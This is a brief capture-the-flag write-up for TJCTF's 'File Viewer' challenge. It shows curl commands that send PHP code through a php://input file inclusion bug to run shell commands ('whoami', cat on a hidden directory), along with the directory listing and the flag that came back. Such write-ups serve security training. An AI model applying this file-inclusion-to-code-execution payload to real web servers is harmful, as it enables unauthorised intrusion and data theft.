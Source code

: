 # File Viewer

Basic LFI Vuln  
curl -XPOST '[https://file\_viewer.tjctf.org/reader.php?file=php://input](https://file_viewer.tjctf.org/reader.php?file=php://input)' -d '&lt;?php system\("whoami"\); ?&gt;' - www-data ls -la:

```text
-r--r--r-- 1 root     root       44 May 18 15:32 apple.txt
-r--r--r-- 1 root     root       74 May 24 15:12 grape.txt
dr-xr-xr-x 1 root     root     4096 May 24 15:12 i_wonder_whats_in_here
-r--r--r-- 1 root     root     3012 May 18 15:32 index.html
-r--r--r-- 1 root     root       27 May 18 15:32 orange.txt
-r--r--r-- 1 root     root       49 May 18 15:32 pear.txt
-r--r--r-- 1 root     root       27 May 18 15:32 pinneaple.txt
-r--r--r-- 1 root     root     2532 May 18 15:32 reader.php
-r--r--r-- 1 root     root       22 May 18 15:32 watermelon.txt
```

```php
curl -XPOST 'https://file_viewer.tjctf.org/reader.php?file=php://input' -d '<?php system("cat i_wonder_whats_in_here/* "); ?>'
```

## tjctf{n1c3\_j0b\_with\_lf1\_2\_rc3}

